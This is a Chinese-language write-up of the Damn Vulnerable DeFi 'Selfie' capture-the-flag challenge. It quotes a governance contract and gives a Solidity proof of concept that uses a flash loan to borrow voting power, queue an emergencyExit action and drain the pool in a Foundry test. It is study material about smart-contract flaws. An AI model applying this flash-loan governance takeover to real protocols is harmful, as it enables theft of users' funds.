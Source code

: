 # Selfie (24/09/05)

## 题目介绍

> **自拍**
>
> **一个新的贷款池已经启动！它现在正在提供DVT代币的快速贷款。它甚至包括一个花哨的治理机制来控制它。**
>
> **什么会出错，对吗？**
>
> **你从没有DVT代币开始平衡，池有150万存在风险。**
>
> **从池中抢救所有资金，并将其存入指定的回收账户。**

## 合约分析

一共有两个合约文件还有一个接口文件，题目当中提到了治理机制刚好有个SimpleGovernance的治理合约还有一个闪电贷的合约。

看了下治理合约有创建和执行治理操作的函数。函数第一行就在检查是否有足够多的票数。刚好可以配合闪电贷拿到足够的token创建交易。在等待2天以后的时间才可以执行。

``` solidity
       function queueAction(address target, uint128 value, bytes calldata data) external returns (uint256 actionId) {
        if (!_hasEnoughVotes(msg.sender)) {
            revert NotEnoughVotes(msg.sender);
        }

        if (target == address(this)) {
            revert InvalidTarget();
        }

        if (data.length > 0 && target.code.length == 0) {
            revert TargetMustHaveCode();
        }

        actionId = _actionCounter;

        _actions[actionId] = GovernanceAction({
            target: target,
            value: value,
            proposedAt: uint64(block.timestamp),
            executedAt: 0,
            data: data
        });

        unchecked {
            _actionCounter++;
        }

        emit ActionQueued(actionId, msg.sender);
    }
    //检查是否有足够的票数。
    function _hasEnoughVotes(address who) private view returns (bool) {
    //需要委托给攻击合约。
        uint256 balance = _votingToken.getVotes(who);
        uint256 halfTotalSupply = _votingToken.totalSupply() / 2;
        return balance > halfTotalSupply;
    }
    //执行交易 
    function _canBeExecuted(uint256 actionId) private view returns (bool) {
        GovernanceAction memory actionToExecute = _actions[actionId];

        if (actionToExecute.proposedAt == 0) return false;

        uint64 timeDelta;
        unchecked {
            timeDelta = uint64(block.timestamp) - actionToExecute.proposedAt;
        }

        return actionToExecute.executedAt == 0 && timeDelta >= ACTION_DELAY_IN_SECONDS;
    }
```



## 解题过程

1.闪电贷全部的token。

2.委托投票给攻击合约，创建恶意交易data包含**emergencyExit**函数进行提款。

3.创建交易然后vm.warp延长两天时间执行交易id。最后把钱转到恢复账户。

**POC**

``````solidity
  function attack()public {
        token.approve(address(pool),type(uint256).max);
        pool.flashLoan(this, address(token), 1500000 ether,"0xx");
        vm.warp(block.timestamp + 2 days);
        governance.executeAction(1);
        token.transfer(address(recovery),token.balanceOf(address(this)));
    }
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) public  returns (bytes32){
        console.log("token balance",DamnValuableVotes(token).balanceOf(address(this)));
        DamnValuableVotes(token).delegate(address(this));
        bytes memory datas=abi.encodeWithSignature("emergencyExit(address)", address(this));
        governance.getVotingToken();
        governance.queueAction(address(pool),0,datas);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
``````
